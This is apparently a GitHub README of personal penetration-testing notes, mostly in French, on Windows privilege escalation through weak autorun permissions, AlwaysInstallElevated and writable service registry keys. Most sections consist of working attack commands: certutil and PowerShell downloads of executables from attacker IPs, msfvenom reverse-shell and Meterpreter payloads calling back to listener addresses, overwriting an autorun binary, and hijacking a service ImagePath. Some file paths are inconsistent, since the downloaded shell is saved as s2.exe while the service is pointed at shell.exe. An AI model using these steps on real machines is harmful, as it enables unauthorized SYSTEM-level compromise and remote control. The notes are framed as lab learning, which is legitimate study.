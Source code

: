 This is my learning about windows Privilege Escalation
## Weak Registry Autoruns Escalation
Windows peut être configuré pour exécuter des commandes au démarrage, ce processus est appelé AutoRun. Ces exécutions automatiques sont configurées dans le registre. Si vous êtes en mesure d'écrire dans un exécutable AutoRun et de redémarrer le système (ou d'attendre qu'il soit redémarré), vous pouvez être en mesure d'élever vos privilèges.

Pour cela utilisons winpeas pour voir s'il ya des programmes qui ont un droit de autorun
```
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
.\winPEASany.exe quiet applicationsinfo
```
trouver un program d'autorun  qui es le program.exe dans `C:\Program Files\Autorun Program\program.exe`

Si nous souhaitons effectuer l'énumération manuellement, il suffit d'utiliser la commande ci-dessous :
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Pour vérifier la permission du programme.exe, nous utiliserons accesschk.exe.

```
.\accesschk.exe /accepteula -wvu "Program path"
```
Maintenant pour l'exploiter on doit creer un program avec le meme nom que program.exe avec notre listner
```
msfvenom -p windows/shell_reverse_tcp lhost=10.4.5.83 lport=53 -f exe > shell.exe
```
copy it to program.exe
```
copy /Y shell.exe "C:\Program Files\Autorun Program\program.exe"
```

## AlwaysInstallElevated
 Dans les tests de pénétration, lorsque nous lançons un shell de commande en tant qu'utilisateur local, il est possible d'exploiter les fonctions vulnérables (ou les paramètres de configuration) de la stratégie de groupe de Windows, afin de les élever aux privilèges d'administrateur et d'obtenir l'accès d'administrateur.
 Comme nous le savons tous, le système d'exploitation Windows est doté d'un moteur Windows Installer qui est utilisé par les paquets MSI pour l'installation d'applications. Ces paquets MSI peuvent être installés avec des privilèges élevés pour les utilisateurs non administrateurs.
**Detection**
Pour detecter cela il suffit
```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Comme nous pouvons le voir dans la sortie, le registre nommé "AlwaysInstallElevated" existe avec une valeur dword (REG_WORD) de 0x1, ce qui signifie que la stratégie AlwaysInstallElevated est activée.

- Privilege Escalation via .msi payload 
La premiere methode est de creer un payload en `.msi` ensuite l'executer avec `msiexec /quiet /qn /i`
/quiet = Supprime tout message à l'utilisateur pendant l'installation
/qn = Pas d'interface graphique
/i = Installation normale (vs. administrative)
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > shell.msi

msiexec /quiet /qn /i shell.msi
```




## Weak registry escalation
Microsoft Windows offre un large éventail d'autorisations et de privilèges très précis pour contrôler l'accès aux composants de Windows, notamment les services, les fichiers et les entrées de registre. L'exploitation des permissions faibles du registre est une technique permettant d'augmenter les privilèges.

En détournant les entrées du registre utilisées par les services, les attaquants peuvent exécuter leurs charges utiles malveillantes. Les attaquants peuvent utiliser les faiblesses des autorisations du registre pour détourner l'exécutable initialement prévu vers un exécutable qu'ils contrôlent au démarrage du service, ce qui leur permet d'exécuter leurs logiciels malveillants non autorisés.
**Windows Registry**
Le registre est une base de données définie par le système dans laquelle les applications et les composants du système stockent et récupèrent des données de configuration. Le registre est une base de données hiérarchique qui contient des données essentielles au fonctionnement de Windows et des applications et services qui s'exécutent sur Windows.

Un attaquant peut élever ses privilèges en exploitant une permission faible du Registre si l'utilisateur actuel a la permission de modifier les clés du Registre associées au service.

- Après une première prise de contact, nous pouvons demander les permissions des clés de registre du service à l'aide de l'outil Sysinternals `accesschk.exe`
```
C:\Users\vboxuser\AppData\Local\Temp>accesschk.exe /accepteula "authenticated users" -kvuqsw hklm\System\CurrentControlSet\services
Sysinternals - www.sysinternals.com

 W HKLM\System\CurrentControlSet\services\BTAGService\Parameters\Settings
	KEY_CREATE_SUB_KEY
	KEY_SET_VALUE
	READ_CONTROL
RW HKLM\System\CurrentControlSet\services\embeddedmode\Parameters
	KEY_QUERY_VALUE
	KEY_CREATE_SUB_KEY
	KEY_ENUMERATE_SUB_KEYS
	KEY_NOTIFY
	READ_CONTROL
RW HKLM\System\CurrentControlSet\services\pentest
	KEY_ALL_ACCESS
RW HKLM\System\CurrentControlSet\services\vds\Alignment
	KEY_QUERY_VALUE
	KEY_CREATE_SUB_KEY
	KEY_ENUMERATE_SUB_KEYS
	READ_CONTROL
```
je trouve dans ma detection que le `RW HKLM\System\CurrentControlSet\services\pentest` est `	KEY_ALL_ACCESS` un access complet
je vais faire du `reg query` sur ce registre `HKLM\System\CurrentControlSet\services\pentest` la pour plus d'infos
```
C:\Users\vboxuser\AppData\Local\Temp>reg query hklm\System\CurrentControlSet\services\pentest
reg query hklm\System\CurrentControlSet\services\pentest

HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\pentest
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    C:\temp\service.exe
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\services\pentest\Security

C:\Users\vboxuser\AppData\Local\Temp>

```
Voici le program vulnerable qui est juste le `C:\temp\service.exe`
Pour l'exploiter:
- Create Malicious Executable 
Créer un shell exécutable et l'installer sur la machine de la victime, puis modifier la clé de registre du service en un exécutable puisque l'utilisateur authentifié a un accès complet au service et a donc la possibilité de modifier le chemin d'accès à l'image du service.

```
C:\Users\vboxuser\AppData\Local\Temp>powershell wget http://192.168.56.1/shell2.exe -o s2.exe

reg add "HKLM\system\currentcontrolset\services\pentest" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\Public\shell.exe" /f
```
Then 
```
net start pentest
```
Lorsque le service démarre ou est redémarré, le programme contrôlé par l'adversaire s'exécute, ce qui permet à ce dernier d'obtenir la persistance et/ou l'escalade des privilèges dans le contexte du compte sous lequel le service est censé s'exécuter (compte local/domaine, SYSTEM, LocalService ou NetworkService).